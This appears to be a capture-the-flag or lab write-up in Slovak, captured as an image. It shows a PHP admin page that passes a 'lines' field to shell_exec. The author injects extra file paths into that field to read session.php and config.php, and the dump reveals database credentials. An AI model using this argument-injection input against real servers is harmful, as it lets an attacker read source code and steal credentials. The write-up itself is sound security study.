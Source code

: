 ```php
</head>
<body>
<div class="container mt-5">
    <h2><?= $langs['admin_tools'] ?></h2>

    <form method="post" class="mb-4">
        <div class="form-group">
            <label><?= $langs['file'] ?></label>
            <input type="text" name="file" class="form-control" disabled="disabled" value="<?= LOGINS ?>">
        </div>
        <div class="form-group">
            <label><?= $langs['lines'] ?></label>
            <input type="text" name="lines" value="10" class="form-control" min="1" max="1000">
        </div>
        <button type="submit" class="btn btn-warning"><?= $langs['show_head'] ?></button>
    </form>

    <pre class="bg-light p-3 border"><?= htmlspecialchars($output) ?></pre>

    <a href="index.php" class="btn btn-secondary"><?= $langs['back'] ?></a>
</div>
</body>
</html>
```

`shell_exec("/usr/bin/tac " . LOGINS . "| head -n " . escapeshellcmd(lines));`  tak cez `escapeshellcmd(lines)` asi neprejdem. Pozriem podľa `require` alebo `require_once` iné súbory.
`1000 /var/www/html/app/session.php`

```php
<?php
require_once 'config.php';

if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
```

Hmmm, `1000 /var/www/html/app/config.php` mi dal heslá, zrejme použiteľné do adminera...

```php
<?php
session_start();

define('DB_HOST', 'localhost');
define('DB_NAME', 'myapp');
//define('DB_USER', 'developer');
define('DB_USER', 'svc_myapp');
define('DB_PASS', '423e5dc8f0db6b19c85d87d69af31844');

define('LOGINS', __DIR__ . '/log/logins.log');

$language_files = [
    'cs' => 'lang/cs.php',
    'en' => 'lang/en.php',
];

$lang = $_GET['lang'] ?? $_SESSION['lang'] ?? 'cs';
if (!array_key_exists($lang, $language_files)) {
    $lang = 'cs';
}
$_SESSION['lang'] = $lang;

```